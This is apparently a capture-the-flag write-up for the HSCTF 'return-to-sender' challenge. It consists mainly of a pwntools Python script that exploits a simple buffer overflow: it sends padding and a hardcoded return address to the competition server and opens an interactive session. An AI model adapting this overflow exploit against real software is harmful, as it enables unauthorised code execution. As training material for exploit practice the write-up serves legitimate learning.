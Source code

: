# HSCTF - return-to-sender --

## Desc

Simple buffer overflow

## Sploit
```python
#!/usr/bin/env python2.7
from pwn import *
context(arch = 'i386', os = 'linux')

r = remote('pwn.hsctf.com', 1234)
payload='A'*10 + 'B'*8 + 'C'*2 + '\xb6\x91\x04\x08'
r.send(payload)
r.interactive()
```
